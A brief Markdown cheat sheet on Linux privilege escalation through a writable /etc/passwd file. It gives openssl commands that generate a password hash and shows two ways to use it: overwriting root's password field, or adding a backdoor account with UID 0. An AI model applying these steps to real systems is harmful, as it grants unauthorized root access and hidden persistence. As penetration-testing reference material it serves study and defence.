 # Living off the Land

## Weak File Permissions - Writable `/etc/passwd`

`$ openssl passwd -1 thispass123`

For older linux systems

`$ openssl passwd -1 -salt new thispass123`

We have two ways to modify the `passwd` file:

## Exploit

### Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

`root:x:0:0:root:/root:/bin/bash`

Authenticate as root with the password

`$ su root`

### Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

Note: replace `<new_hash>` with the hashed password

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)